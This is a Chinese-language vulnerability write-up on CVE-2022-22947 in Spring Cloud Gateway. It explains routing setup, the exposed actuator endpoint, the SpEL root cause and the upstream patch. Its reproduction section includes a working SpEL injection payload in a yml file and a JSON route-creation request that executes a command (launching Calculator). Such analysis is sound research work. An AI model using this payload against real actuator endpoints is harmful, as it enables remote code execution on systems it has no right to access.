# SpringCloud Gateway 漏洞分析 （CVE-2022-22947） - 9eek - 博客园

> 原文：[`www.cnblogs.com/9eek/p/16243402.html`](https://www.cnblogs.com/9eek/p/16243402.html)

## 背景

SpringCloud 是 Spring 提供的微服务实现框架，其中包含网关、配置中心和注册中心等内容，网关的第一代实现为 zuul，第二代实现为 Gateway，提供了更好的性能和特性。

网关可以提供统一的流量控制和访问控制等功能，一般放在客户端请求的入口或作为 nginx 的直接上游如下图。



## Gateway 使用

Gateway 配置可以使用两种方式：

1.  yml 或者 properties 固定配置
2.  通过 actuator 插件动态添加

作为一个网关最主要的功能就是路由功能，而路由的规则由**Route、Predicate、Filter** 三部分组成。




*   Spring Cloud Gateway < 3.1.1
*   Spring Cloud Gateway < 3.0.7

### 实操

#### yml 固定配置方式

1.  首先在 idea 中新建 spring 项目，pom 中引入 spring-cloud-starter-gateway 依赖(一般使用引入 starter 即可，这里单独指定含漏洞的自动配置底层包)

```
 <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-starter-gateway</artifactId>
        </dependency>
<!--        有漏洞底层包版本-->
        <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-gateway-server</artifactId>
            <version>3.1.0</version>
        </dependency> 
```

2.  在 application.yml 或者 application.properties 中新建以下配置：

```
spring:
  application:
    name: GatewatDemo

  cloud:
    gateway:
      routes:
        - id: "router1"
          uri: "http://127.0.0.1:9223/"
          predicates:
            - Path=/
          filters:
            - AddResponseHeader=Result,1 
```

配置含义： 新建了一个 id 为 router1 的路由，规则为当请求的路径为/时，将请求转发给`http://127.0.0.1:9223` （predicates）并给响应增加一个头 Result 值为 1（filter）。

本地起一个 9223 服务，观察能否转发。启动项目，转发成功。这就是一个网关基本的功能。



#### 动态配置

除了通过配置文件写死的方式，Gateway 也支持通过 Actuator（spring 监控组件）动态配置路由。

1.  pom 中新引入`spring-boot-starter-actuator`

```
 <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-actuator</artifactId>
 </dependency> 
```

2.  配置文件（ Spring Boot 2.x 后为了安全起见默认只开放/actuator/health 和/actuator/info 端点），开启 gateway 监控

```
management:
  endpoint:
    gateway:
      enabled: true

  endpoints:
    web:
      exposure:
        include: gateway 
```

3.  重启应用，访问`http://localhost:8080/actuator/gateway/routes`,出现下面页面则表示配置成功。



4.  使用 actuator 动态创建路由，使用 post 请求发送以下内容到`http://127.0.0.1:8080/actuator/gateway/routes/router2`：

```
{
  "id": "router2",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "2"
    }
  }],
  "uri": "http://127.0.0.1:9224",
   "predicate": "/9224"
} 
```

含义和第一种类似，不过转发路径变成了 9224.

5.  请求`http://127.0.0.1:8080/actuator/gateway/refresh` 应用配置
6.  请求页面,页面 404，这事因为 9224 的后端服务没有/9224 这个端点所以是 404，但有请求记录，证明转发成功。




7.  为了使请求正常，所以配置新增一项重写 path

```
{
  "id": "router2",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "2"
    }

  },{
        "name":"RewritePath",
        "args":{
            "_genkey_0":"/9224",
            "_genkey_1":"/"
        }
    }],
  "uri": "http://127.0.0.1:9224",
  "predicate": "/9224"
} 
```

8.  重新访问，页面正常



## 漏洞复现

其实这个漏洞本身是一个 SpEL 注入，我们尝试在之前的 yml 配置文件中使用 SpEL 表达式，我们将 filter 中的 AddResponseHeader 值改为`#{1+1}`

```
spring:
  application:
    name: GatewatDemo

  cloud:
    gateway:
      routes:
        - id: "router1"
          uri: "http://127.0.0.1:9223/"
          predicates:
            - Path=/
          filters:
            - AddResponseHeader=Result,#{1+1} 
```

查看返回头，表达式被成功执行：



将表达式替换成恶意的 SpEL 表达式即可触发 RCE，`#{T(Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")}`。


虽然这个地方确实存在 SpEL 注入，但却很难利用，因为攻击者很难控制目标机器的配置文件，所以利用条件就变成了有没有开启 Actuator，且 Actuator 开启了 gateway 功能没有配置 spring security。

使用动态创建的方法试试。

使用以下 payload 请求创建路由：

```
{
  "id": "router2",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{T(Runtime).getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')}"
    }

  },{
        "name":"RewritePath",
        "args":{
            "_genkey_0":"/9224",
            "_genkey_1":"/"
        }
    }],
  "uri": "http://127.0.0.1:9224",
  "predicate": "/9224"
} 
```

刷新路由,发现代码成功执行。



## 原理分析

我们打开 spring-cloud-gateway 的官网，发现 SpEL 原本是官方提供的一个引用 bean 的功能。



我们对 exec 执行下个断点，观察程序的调用栈。



前面一堆是 Reactor 的逻辑，因为是异步非阻塞的方式，所以阅读起来有一定门槛。

简单来说，就是当我们请求/actuator/gateway/routes/refresh 时会去调用注册在 reactor 中的方法，然后请求`org.springframework.cloud.gateway.actuate` 包中的 refresh()方法



后续会将 application 的上下文传入 gateway 的逻辑，在处理 Filter 的逻辑中会对属性字段进行`normalizeProperties` 操作：




具体逻辑会放入 normalize 中进行处理，其中第一个参数即为我们自己配置的 filter 处理逻辑


第三个参数为 SpEL 的 parse。


随后进入 ShorcutType 中的 normalize 进行处理，解析 key、value 进入并将 value 传入 getValue（）：



在 getValue 中对字符串进行 trim 操作，同时判断字符串以`#{`开始并以`}`结束：


如果满足条件则进入 SpEL 进行解析，可以看到这里导致能够 RCE 的原因，使用了`StandardEvaluationContext` 作为 context, 随后对配置文件的 value 进行标准 SpEL 解析。


到这里就基本理解了漏洞触发的原因

## 补丁分析

在 2 月 17 号，开发者提交了在`org.springframework.cloud.gateway.support#ShortcutConfigurable`使用自定义 Context 方式替换原来的 StanderdContext


自定义的 Context 增加了 Spring 的 BeanFactory 类，从而能实现对 Spinrg IOC 容器 bean 的引用。




修复后新版本运行会报错：


## 总结

漏洞影响版本：

*   Spring Cloud Gateway < 3.1.1
*   Spring Cloud Gateway < 3.0.7

基本上和 SpringCloud Functions 一样是个 SpEL 注入的漏洞，只不过在网关的场景出现，需要应用暴露 actuator，有一定前置条件。

## 引用

> [`cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22947`](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22947)
> 
> [`docs.spring.io/spring-cloud-gateway/docs/current/reference/html/`](https://docs.spring.io/spring-cloud-gateway/docs/current/reference/html/)
> 
> [`github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e`](https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e)
> 
> [`docs.spring.io/spring-boot/docs/current/reference/html/actuator.html#actuator`](https://docs.spring.io/spring-boot/docs/current/reference/html/actuator.html#actuator)

## 公众号

欢迎大家关注我的公众号，这里有干货满满的硬核安全知识，和我一起学起来吧！

